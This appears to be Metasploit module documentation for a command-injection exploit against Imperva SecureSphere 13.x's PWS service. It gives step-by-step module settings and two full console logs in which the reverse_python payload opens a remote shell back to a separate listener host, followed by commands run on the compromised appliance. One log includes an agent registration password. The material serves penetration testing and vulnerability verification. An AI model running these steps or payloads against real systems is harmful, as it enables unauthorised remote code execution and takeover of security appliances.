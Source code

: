 ## Description

This module exploits a command injection vulnerability in Imperva SecureSphere 13.x. The vulnerability exists in the PWS service, where Python CGIs didn't properly sanitize user supplied command parameters and directly passes them to corresponding CLI utility, leading to command injection. Agent registration credential is required to exploit SecureSphere in gateway mode.

## Vulnerable Application

Imperva SecureSphere 13.0/13.1/13.2

## Verification Steps

1. `use exploit/linux/http/imperva_securesphere_exec`
2. `set RHOST [TARGET IP]`
3. `set PASS [Agent registration password]` if the target has been set to gateway mode
4. Run `check`
5. Verify that the result is `The target is vulnerable.`
6. `set payload cmd/unix/reverse_python`
7. `set LHOST [IP]`
8. Run `exploit`
9. Verify that the reverse shell is obtained

## Scenarios

Imperva Secure 13.0 Pre-FTL mode:
```
msf5 > use exploit/linux/http/imperva_securesphere_exec
msf5 exploit(linux/http/imperva_securesphere_exec) > set RHOSTS 192.168.146.201
RHOSTS => 192.168.146.201
msf5 exploit(linux/http/imperva_securesphere_exec) > check
[+] 192.168.146.201:443 The target is vulnerable.
msf5 exploit(linux/http/imperva_securesphere_exec) > set payload cmd/unix/reverse_python
payload => cmd/unix/reverse_python
msf5 exploit(linux/http/imperva_securesphere_exec) > set LHOST 192.168.146.215
LHOST => 192.168.146.215
msf5 exploit(linux/http/imperva_securesphere_exec) > exploit

[*] Started reverse TCP handler on 192.168.146.215:4444
[*] Sending payload cmd/unix/reverse_python

uname -a
Linux localhost 2.6.32-279.el6.imp8.numa.x86_64 #1 SMP Sun Nov 5 16:18:35 IST 2017 x86_64 x86_64 x86_64 GNU/Linux
id
uid=497(lighttpd) gid=497(lighttpd) groups=497(lighttpd)
/sbin/ifconfig
eth0      Link encap:Ethernet  HWaddr 00:0C:29:DE:50:99
          inet addr:192.168.146.201  Bcast:192.168.146.255  Mask:255.255.255.0
          inet6 addr: fe80::20c:29ff:fede:5099/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:855 errors:0 dropped:0 overruns:0 frame:0
          TX packets:566 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:94180 (91.9 KiB)  TX bytes:198152 (193.5 KiB)

lo        Link encap:Local Loopback
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:16436  Metric:1
          RX packets:0 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0
          RX bytes:0 (0.0 b)  TX bytes:0 (0.0 b)

```

Imperva SecureSphere 13.0 Gateway mode (Requires agent registration credential):
```
msf5 > use exploit/linux/http/imperva_securesphere_exec
msf5 exploit(linux/http/imperva_securesphere_exec) > set RHOSTS 192.168.146.201
RHOSTS => 192.168.146.201
msf5 exploit(linux/http/imperva_securesphere_exec) > set PASS lshy5782%lsLS
PASS => lshy5782%lsLS
msf5 exploit(linux/http/imperva_securesphere_exec) > check
[+] 192.168.146.201:443 The target is vulnerable.
msf5 exploit(linux/http/imperva_securesphere_exec) > set payload cmd/unix/reverse_python
payload => cmd/unix/reverse_python
msf5 exploit(linux/http/imperva_securesphere_exec) > set LHOST 192.168.146.215
LHOST => 192.168.146.215
msf5 exploit(linux/http/imperva_securesphere_exec) > exploit

[*] Started reverse TCP handler on 192.168.146.215:4444
[*] Sending payload cmd/unix/reverse_python

uname -a
Linux GW 2.6.32-279.el6.imp8.numa.x86_64 #1 SMP Sun Nov 5 16:18:35 IST 2017 x86_64 x86_64 x86_64 GNU/Linux
id
uid=497(lighttpd) gid=497(lighttpd) groups=497(lighttpd)
/sbin/ifconfig
eth0      Link encap:Ethernet  HWaddr 00:0C:29:DE:50:99
          inet addr:192.168.146.201  Bcast:192.168.146.255  Mask:255.255.255.0
          inet6 addr: fe80::20c:29ff:fede:5099/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:309 errors:0 dropped:0 overruns:0 frame:0
          TX packets:339 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:52168 (50.9 KiB)  TX bytes:56159 (54.8 KiB)

lo        Link encap:Local Loopback
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:16436  Metric:1
          RX packets:787 errors:0 dropped:0 overruns:0 frame:0
          TX packets:787 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0
          RX bytes:111598 (108.9 KiB)  TX bytes:111598 (108.9 KiB)

```
